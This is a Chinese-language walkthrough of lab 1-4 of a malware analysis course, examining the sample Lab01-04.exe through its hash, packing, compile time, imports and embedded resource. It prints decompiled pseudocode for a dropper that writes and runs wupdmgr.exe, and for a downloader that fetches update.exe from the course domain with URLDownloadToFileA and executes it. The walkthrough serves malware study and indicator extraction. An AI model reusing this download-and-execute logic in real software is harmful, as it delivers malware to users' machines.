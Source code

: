 # lab 1-4

## QUESTION 1

> Upload the Lab01-04.exe file to http://www.VirusTotal.com/. Does it match any existing antivirus definitions?

文件的 sha256 哈希值：

```bash
$ sha256sum Lab01-04.exe
0fa1498340fca6c562cfa389ad3e93395f44c72fd128d7ba08579a69aaf3b126  Lab01-04.exe
```

因此上传的 `url` 为：https://www.virustotal.com/#/file/0fa1498340fca6c562cfa389ad3e93395f44c72fd128d7ba08579a69aaf3b126/detection

可以看到这同样是一个被 53 个引擎检测出来的木马。

## QUESTION 2

> Are there any indications that this file is packed or obfuscated? If so, what are these indicators? If the file is packed, unpack it if possible.

使用 `blackarch` 的工具 `packerid`：

```bash
$ packerid Lab01-04.exe 
['Microsoft Visual C++ v5.0/v6.0 (MFC)']
```

可见这个文件并没有加壳。

## QUESTION 3

> When was this program compiled?

PE 文件的文件结构可以参考[微软的官方文档](https://docs.microsoft.com/en-us/windows/desktop/debug/pe-format)。

可以找到在对象文件的的最开始，存在一个标准文件头，其中有一个 `TimeDateStamp` 域，指示了文件创建时的时间戳，可以使用以下的 python 脚本读取它：

```python
#！/usr/bin/env python3
from datetime import datetime
import pefile

pe = pefile.PE("/tmp/BinaryCollection/Chapter_1L/Lab01-04.exe")
print(datetime.fromtimestamp(pe.FILE_HEADER.TimeDateStamp))
```

```bash
$ python labb01-04.exe
2019-08-31 06:26:59
```

## QUESTION 4

> Do any imports hint at this program’s functionality? If so, which imports are they and what do they tell you?

使用 `blackarch` 的工具 `malscan`：

```bash
$ malscan Lab01-04.exe
...
[Imports Overview]

KERNEL32.dll
        0x402010 GetProcAddress
        0x402014 LoadLibraryA
        0x402018 WinExec
        0x40201c WriteFile
        0x402020 CreateFileA
        0x402024 SizeofResource
        0x402028 CreateRemoteThread
        0x40202c FindResourceA
        0x402030 GetModuleHandleA
        0x402034 GetWindowsDirectoryA
        0x402038 MoveFileA
        0x40203c GetTempPathA
        0x402040 GetCurrentProcess
        0x402044 OpenProcess
        0x402048 CloseHandle
        0x40204c LoadResource

ADVAPI32.dll
        0x402000 OpenProcessToken
        0x402004 LookupPrivilegeValueA
        0x402008 AdjustTokenPrivileges

MSVCRT.dll
        0x402054 _snprintf
        0x402058 _exit
        0x40205c _XcptFilter
        0x402060 exit
        0x402064 __p___initenv
        0x402068 __getmainargs
        0x40206c _initterm
        0x402070 __setusermatherr
        0x402074 _adjust_fdiv
        0x402078 __p__commode
        0x40207c __p__fmode
        0x402080 __set_app_type
        0x402084 _except_handler3
        0x402088 _controlfp
        0x40208c _stricmp
...
```

可见这个可执行文件导入了，执行命令、复制移动写文件、读取文件资源大小、读取文件树、打开关闭进程等危险函数，猜测这是实现了一个了文件查看器的恶意病毒。

## QUESTION 5

> What host- or network-based indicators could be used to identify this malware on infected machines?

我们用 `ida pro` 打开这个可执行文件，先查看它里面的字符串：

![04.exe.ida.strings](./04.exe.ida.strings.png)

我们发现 `\\system32\\wupdmgr.exe` 这样一个字符串，我们查找调用的位置，并查看调用位置的伪代码：

```c
// ...
  GetWindowsDirectoryA(&Buffer, 0x10Eu);
  snprintf(&Dest, 0x10Eu, Format, &Buffer, aSystem32Wupdmg);
  hModule = GetModuleHandleA(0);
  hResInfo = FindResourceA(hModule, Name, Type);
  lpBuffer = LoadResource(hModule, hResInfo);
  nNumberOfBytesToWrite = SizeofResource(hModule, hResInfo);
  hFile = CreateFileA(&Dest, 0x40000000u, 1u, 0, 2u, 0, 0);
  WriteFile(hFile, lpBuffer, nNumberOfBytesToWrite, &NumberOfBytesWritten, 0);
  CloseHandle(hFile);
  return WinExec(&Dest, 0);
}
```

这段代码的大致用处应该是加载一个可执行文件的资源，然后把这个可执行文件资源复制到一个给定的位置（即 `\\system32\\wupdmgr.exe`），然后执行它。这并没有网络相关请求。

于是我们通过 `binwalk` 命令提取出其中的资源：

```bash
$ binwalk --dd=".*" Lab01-04.exe
DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             Microsoft executable, portable (PE)
16480         0x4060          Microsoft executable, portable (PE)
```

这条命令将给定文件 `Lab01-04.exe` 中的资源提取到了文件夹 `_Lab01-04.exe.extracted` 中。

```bash
$ cd _Lab01-04.exe.etracted/

$ ls
0  4060
```

我们发现提取出了 `0` 和 `4060` 这两个资源，很显然 `0` 即为之前分析的可执行文件，我们再用  `ida pro` 分析其中的资源文件 `4060`：

![04.resources.ida.string](./04.resources.ida.string.png)

我们发现了一个 `URL` 地址，并且我们还在导入表中发现了 `URLDownloadToFileA` 这个导入函数，我们再分析调用这个字符串位置的伪代码：

```c
// ...
  GetTempPathA(0x10Eu, &Buffer);
  snprintf(&Dest, 0x10Eu, Format, &Buffer, aWinupExe);
  WinExec(&Dest, 5u);
  GetWindowsDirectoryA(&v7, 0x10Eu);
  snprintf(&CmdLine, 0x10Eu, aSS_0, &v7, aSystem32Wupdmg);
  if ( !URLDownloadToFileA(0, aHttpWwwPractic, &CmdLine, 0, 0) )
    WinExec(&CmdLine, 0);
  return 0;
}
```

这个段伪代码，向 `http://www.practicalmalwareanalysis.com/update.exe`，下载病毒资源文件并且保存到 `\\system32\\wupdmgrd.exe` 这个文件中。

所以需要监测网络中是否与 `http://www.practicalmalwareanalysis.com/update.exe` 建立了连接。

## QUESTION 6

> This file has one resource in the resource section. Use Resource Hacker to examine that resource, and then use it to extract the resource. What can you learn from the resource?

在第五问中已经使用 `binwalk` 提取出来了。